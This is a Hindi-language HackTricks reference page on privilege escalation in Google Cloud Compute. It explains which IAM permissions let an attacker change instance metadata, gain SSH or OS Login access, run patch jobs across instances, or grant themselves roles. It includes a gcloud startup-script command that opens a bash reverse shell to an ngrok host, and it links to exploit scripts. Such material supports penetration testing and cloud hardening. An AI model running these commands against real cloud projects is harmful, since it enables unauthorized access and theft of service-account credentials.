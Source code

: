 # GCP - कंप्यूट प्रिवेस्क

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ जीरो से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos पर PRs सबमिट करके।

</details>

## कंप्यूट

कंप्यूट और VPC (नेटवर्क) के बारे में अधिक जानकारी के लिए GCP में जांच करें:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
ध्यान दें कि सभी प्रिविलेज इस्केलेशन हमले को करने के लिए जो मेटाडेटा को संशोधित करने की आवश्यकता होती है (जैसे नए उपयोगकर्ताओं और SSH कुंजियों को जोड़ना), उसके लिए **आपके पास इंस्टेंस से जुड़े SA पर `actAs` अनुमतियाँ होनी चाहिए**, भले ही SA पहले से ही जुड़ा हो!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

इस अनुमति के साथ आप एक **इंस्टेंस** की **मेटाडेटा** जानकारी को **संशोधित** कर सकते हैं और **एक उपयोगकर्ता की अधिकृत कुंजियाँ बदल सकते हैं**, या **सुडो के साथ एक नया उपयोगकर्ता बना सकते हैं**। इसलिए, आप किसी भी VM इंस्टेंस में SSH के माध्यम से exec कर सकेंगे और उस GCP सेवा खाता को चुरा सकेंगे जिसके साथ इंस्टेंस चल रहा है।\
सीमाएँ:

* ध्यान दें कि डिफ़ॉल्ट रूप से VM इंस्टेंस में चल रहे GCP सेवा खातों का **बहुत ही सीमित दायरा** होता है
* आपको **SSH सर्वर से संपर्क करने की क्षमता** होनी चाहिए

इस अनुमति को कैसे शोषण करने के बारे में अधिक जानकारी के लिए जांचें:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

आप नए स्टार्टअप स्क्रिप्ट जोड़कर और इंस्टेंस को रिबूट करके भी इस हमला कर सकते हैं:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

यह अनुमति **पिछली अनुमति के समान विशेषाधिकार** प्रदान करती है लेकिन पूरे परियोजना के बजाय विशेष उदाहरणों पर एक विशेष उदाहरणों पर। **पिछले खंड के लिए एक ही शोषण और सीमाएं लागू होती हैं**।

### `compute.instances.setIamPolicy`

इस प्रकार की अनुमति आपको **पिछली अनुमतियों के साथ खुद को एक भूमिका प्रदान करने** और उनका दुरुपयोग करके विशेषाधिकारों को उन्हें बढ़ाने की अनुमति देगी।

### **`compute.instances.osLogin`**

यदि **इंस्टेंस में OSLogin सक्षम है**, तो इस अनुमति के साथ आप बस **`gcloud compute ssh [INSTANCE]`** चला सकते हैं और इंस्टेंस से कनेक्ट कर सकते हैं। आपके पास इंस्टेंस के अंदर **रूट विशेषाधिकार नहीं होंगे**।

### **`compute.instances.osAdminLogin`**

यदि **इंस्टेंस में OSLogin सक्षम है**, तो इस अनुमति के साथ आप बस **`gcloud compute ssh [INSTANCE]`** चला सकते हैं और इंस्टेंस से कनेक्ट कर सकते हैं। आपके पास इंस्टेंस के अंदर **रूट विशेषाधिकार होंगे**।

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

एक वर्चुअल मशीन बनाना संभव है जिसमें एक सेवा खाता सौंपा गया है और सेवा खाते के टोकन को चुराने की अनुमति है ताकि आप उसे विशेषाधिकारों तक उन्नत कर सकें।

इस विधि के लिए शोषण स्क्रिप्ट [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py) मिल सकता है।

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

यदि आपके पास **`osconfig.patchDeployments.create`** या **`osconfig.patchJobs.exec`** अनुमतियाँ हैं तो आप एक [**पैच जॉब या डिप्लॉयमेंट**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) बना सकते हैं। यह आपको परिवेश में लेटरली ले जाने और परियोजना के सभी कंप्यूट इंस्टेंस पर कोड निष्पादन प्राप्त करने की सक्षमता प्रदान करेगा।

इसे मैन्युअल शोषण करना चाहते हैं तो आपको या तो एक [पैच जॉब](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) बनाने की आवश्यकता होगी या [डिप्लॉयमेंट](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json) के लिए एक पैच जॉब चलाएं:

`gcloud compute os-config patch-jobs execute --file=patch.json`

पैच डिप्लॉय करने के लिए:

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

स्वचालित टूलिंग जैसे [patchy](https://github.com/rek7/patchy) में ढीली अनुमतियों का पता लगाने और स्वचालित रूप से लेटरली ले जाने की संभावना है।

**आप इसे स्थिरता के लिए भी दुरुपयोग कर सकते हैं।**

### `compute.machineImages.setIamPolicy`

अपने आप को **कंप्यूट इमेज के लिए अतिरिक्त अनुमतियाँ प्रदान करें**।

### `compute.snapshots.setIamPolicy`

अपने आप को **डिस्क स्नैपशॉट के लिए अतिरिक्त अनुमतियाँ प्रदान करें**।

### `compute.disks.setIamPolicy`

अपने आप को **डिस्क के लिए अतिरिक्त अनुमतियाँ प्रदान करें**।

### एक्सेस स्कोप को छलना

इस लिंक का पालन करते हुए आपको कुछ [**विचार प्राप्त करने के लिए कोशिश करने के लिए**](../) मिलेंगे।

### GCP कंप्यूट इंस्टेंस में स्थानिक विशेषाधिकार उन्नति

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## संदर्भ

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)
